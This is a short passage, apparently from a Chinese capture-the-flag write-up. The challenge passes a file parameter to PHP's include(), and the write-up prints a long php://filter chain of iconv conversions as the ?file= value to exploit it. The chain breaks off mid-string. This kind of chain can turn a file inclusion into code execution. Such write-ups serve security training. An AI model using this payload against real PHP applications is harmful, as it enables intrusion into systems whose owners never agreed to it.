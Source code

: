 ![](./images/1701177837-image.png)

题目给的提示是：RC4解密，猜测密码为Syclover，拿到hex源码

```
文件包含逻辑是include($file.".py"),你能找到flag文件位置吗??
```

如下传参

```
?file=php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-
1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|conver
t.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|co
nvert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-
16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-
decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|co
nvert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-
16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-
encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|conver
t.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-
16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-
```
